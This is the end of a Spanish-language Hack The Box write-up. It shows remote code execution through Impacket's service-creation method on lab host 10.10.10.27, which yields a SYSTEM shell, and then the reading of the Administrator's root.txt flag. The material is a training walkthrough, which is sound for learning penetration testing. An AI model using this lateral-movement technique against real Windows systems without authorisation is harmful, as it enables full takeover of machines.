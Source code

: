 ```bash
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file jcWXyjRG.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service UFMW on 10.10.10.27.....
[*] Starting service UFMW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Verificamos nuestros permisos:

```bash
C:\Windows\system32>whoami
nt authority\system
```

En efecto, tenemso permisos de administrador, y ahora podemos ir al escritorio
del administrador y extraer la última bandera.

```bash
C:\Windows\system32>cd C:\Users\Administrator\Desktop
```

```bash
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\Administrator\Desktop

01/20/2020  05:42 AM    <DIR>          .
01/20/2020  05:42 AM    <DIR>          ..
02/25/2020  06:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  33,818,599,424 bytes free
```

```bash
C:\Users\Administrator\Desktop>type root.txt
```

Listo! Tenemos las dos banderas de esta máquina!

## Fin

Bueno, con eso hemos concluido la revisión del primer walk-through de las
máquinas de introducción de `HTB`. Este texto fue un poco más extenso ya que se
fueron expllicando paso a paso cada comando, pero conforme avancemos en las
herramientas y comandos obviaremos los que se hayan explicado previamente.

Espero haya sido de tu agrado y utilidad este texto, y si vas comenzando en
estos temas de seguridad, [recuerda no rendirte](https://www.youtube.com/watch?v=dQw4w9WgXcQ)
y seguir aprendiendo poco a poco.

Nos vemos en el siguiente texto. Ciao!

`#HappyHacking`

